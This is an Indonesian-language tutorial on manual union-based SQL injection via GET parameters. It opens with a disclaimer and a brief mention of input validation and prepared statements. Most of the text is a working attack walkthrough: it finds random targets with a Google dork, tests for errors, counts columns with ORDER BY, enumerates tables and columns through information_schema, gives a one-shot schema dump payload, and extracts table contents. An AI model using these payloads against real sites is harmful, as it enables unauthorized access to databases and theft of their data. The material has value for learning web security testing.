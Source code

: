 # Union SQL Injection Manual Sederhana: Metode GET HTTP

**Penulis:** R&D ICWR  
**Tanggal Terbit:** 2024-01-18

### Disclaimer:

**Disclaimer:**  
Disclaimer ini disengaja ditempatkan di bagian atas agar dibaca terlebih dahulu. Tujuan dari pembelajaran berikut adalah untuk keperluan pembelajaran dan peningkatan keamanan pada website saja. Tutorial ini tidak dimaksudkan untuk digunakan dalam aktivitas ilegal seperti dumping database. Jika ada pihak yang menggunakan tutorial ini untuk aktivitas ilegal, hal tersebut bukanlah tanggung jawab kami.

---

SQL injection merupakan teknik serangan keamanan yang memanfaatkan celah pada sistem pengolahan query SQL pada aplikasi web. Pada serangan ini, penyerang menginjeksikan perintah SQL berbahaya ke dalam input aplikasi. Jika aplikasi tidak melakukan validasi atau penyaringan input dengan benar, perintah SQL tersebut dapat dieksekusi oleh database. Salah satu bentuk umum serangan SQL injection terjadi melalui metode GET dalam protokol HTTP, di mana parameter URL dapat dimanipulasi untuk menyisipkan perintah SQL yang membahayakan integritas data atau memungkinkan akses yang tidak sah.

Sebagai contoh, URL yang rentan terhadap SQL injection pada metode GET adalah seperti:  
`http://contoh.com/login.php?username=admin' OR '1'='1' -- &password=abc`  
Dalam contoh ini, penyerang mencoba menyisipkan perintah SQL yang selalu benar, sehingga mengakibatkan akses ke seluruh data dari tabel yang bersangkutan. Untuk menjaga keamanan aplikasi dari serangan SQL injection, sangat penting untuk memvalidasi dan membersihkan input, serta menggunakan teknik parameterized queries atau prepared statements dalam pengolahan query SQL. Pengujian keamanan secara berkala juga diperlukan untuk memastikan tingkat keamanan aplikasi tetap terjaga.

---

Pertama-tama, dalam melakukan penetrasi keamanan pada website, fokus utama adalah mencari target yang menggunakan parameter GET untuk menampilkan data. Pendekatan yang umum dilakukan adalah dengan memanfaatkan query Dork pada mesin pencari Google menggunakan sintaks `inurl:"*.php?id="`.

Contohnya pada kolom search Google sebagai berikut:  
`inurl:"*.php?id="`

Setelah berhasil menemukan website target, seperti contoh `http://contoh.com/get_name?id=1`, langkah selanjutnya adalah melakukan eksploitasi untuk mengidentifikasi potensi kerentanannya terhadap serangan SQL Injection. Pendekatan ini dilakukan dengan memeriksa respons dari server terhadap manipulasi parameter GET.

Untuk menguji kerentanan, tambahkan karakter `'` atau `"` pada bagian paling belakang URL, seperti:

```

[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)'

```

atau

```

[http://contoh.com/get\_name?id=1](http://contoh.com/get_name?id=1)"

```

Jika website merespon dengan error seperti `Warning: mysqli_num_rows() expects`, kemungkinan besar website tersebut rentan terhadap serangan SQL Injection. Kesalahan ini menunjukkan bahwa input yang diberikan tidak diproses atau disaring dengan benar sebelum dieksekusi oleh database.

Setelah mengidentifikasi kerentanan, langkah selanjutnya adalah menentukan jenis database yang digunakan oleh website dan menyesuaikan teknik serangan. Ini dapat dilakukan dengan menambahkan karakter balancing pada URL, seperti:

- `--` untuk MySQL Linux Style
- `--+` untuk MySQL Windows Style
- `#` hash URL Encode while Use
- `--+-` SQL Comment
- `;%00` Null Byte
- *Backtick*

Contoh:  
`http://contoh.com/get_name?id=1' --+-`

Langkah ini dilakukan untuk mengidentifikasi apakah teknik serangan SQL Injection yang digunakan sesuai dengan karakteristik server dan database yang dimiliki oleh website target.

Setelah mengidentifikasi website yang vulner, penyerang dapat menambahkan karakter balancing seperti `--` (untuk MySQL Linux Style), `--+` (untuk MySQL Windows Style), `#` ( untuk Hash URL Encode while Use), `--+-` (SQL Comment), `;%00` (Null Byte), atau *Backtick* untuk memperoleh respons yang diinginkan.

Langkah selanjutnya dalam proses eksploitasi melibatkan penyuntikan query dengan tujuan mengetahui jumlah kolom pada tabel database. Contohnya, penyerang dapat menggunakan pendekatan berurutan pada parameter GET, seperti:

- `http://contoh.com/get_name?id=1' order by 1--+-` -> Tidak ada error  
- `http://contoh.com/get_name?id=1' order by 2--+-` -> Tidak ada error  
- `http://contoh.com/get_name?id=1' order by 3--+-` -> Tidak ada error  
- `http://contoh.com/get_name?id=1' order by 4--+-` -> Terjadi error, menandakan jumlah kolom pada tabel database adalah 3

Setelah mendapatkan informasi tentang jumlah kolom, penyerang dapat melanjutkan dengan mengidentifikasi letak kolom pada tabel database. Langkah ini dapat dilakukan dengan menggunakan query seperti:

- `http://contoh.com/get_name?id=1' union select 1,2,3--+-`

Website akan menampilkan angka 1, 2, dan 3 sesuai dengan posisi kolom dalam tabel database. Informasi ini nantinya digunakan untuk menyusun query akhir yang akan dieksekusi pada posisi yang diinginkan. Sebagai contoh, untuk menampilkan nama database, penyerang dapat menggunakan query seperti:

- `http://contoh.com/get_name?id=-1' union select 1,database(),3--+-`

Pada tahap selanjutnya eksploitasi SQL Injection setelah mendapatkan informasi ini, penyerang dapat melangkah lebih jauh dengan mengekstrak nama-nama tabel pada database target. Dengan menggunakan query berikut, penyerang dapat mengumpulkan nama-nama tabel tersebut:

- `http://contoh.com/get_name?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+-`

Selanjutnya, setelah berhasil mendapatkan daftar nama-nama tabel, penyerang melanjutkan dengan mengekstrak isi kolom pada tabel-tabel tersebut. Dalam tahapan ini, nama tabel diubah menjadi format heksadesimal yang diawali dengan `0x`:

- `http://contoh.com/get_name?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x6e616d615f746162656c --+-`

Atau dengan menggunakan metode Dump in One Shot SQL Injection:

- `http://contoh.com/get_name?id=-1' union select 1,concat(0x3c623e44756d7020696e204f6e652053686f743c2f623e3c62723e,version(),0x3c62723e,user(),0x3c62723e,database(),0x3c62723e,@c:=0x00,if((select count(*) from information_schema.columns where table_schema not like 0x696e666f726d6174696f6e5f736368656d61 and @c:=concat(@c,0x3c62723e,table_name,0x2e,column_name)),0x00,0x00),@c),3--+-'`

Dengan mendapatkan nama-nama kolom dari tabel, langkah terakhir adalah menampilkan isi dari kolom-kolom tersebut. Contoh query untuk menampilkan isi kolom pada tabel yang memiliki 3 kolom seperti id, judul, dan detail adalah:

- `http://contoh.com/get_name?id=-1' union select 1,group_concat(id,judul,detail),3 from nama_tabel --+-`

Melalui serangkaian langkah kompleks ini, penyerang dapat berhasil mengeksploitasi dan memperoleh akses tidak sah ke dalam database suatu aplikasi. Penting untuk diingat bahwa praktek-praktek ini hanya dapat digunakan untuk pembelajaran dan pengujian keamanan dengan izin yang sah, dengan tujuan untuk meningkatkan keamanan aplikasi. Etika dan tanggung jawab dalam penggunaan teknik-teknik ini sangat ditekankan untuk mencegah penyalahgunaan.

**Penulis:** Afrizal F.A

---

*Referensi:*

- [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)  
- [https://exploit.linuxsec.org/tutorial-sql-injection-manual/](https://exploit.linuxsec.org/tutorial-sql-injection-manual/)  
- [https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/](https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/)  
- [https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html](https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)
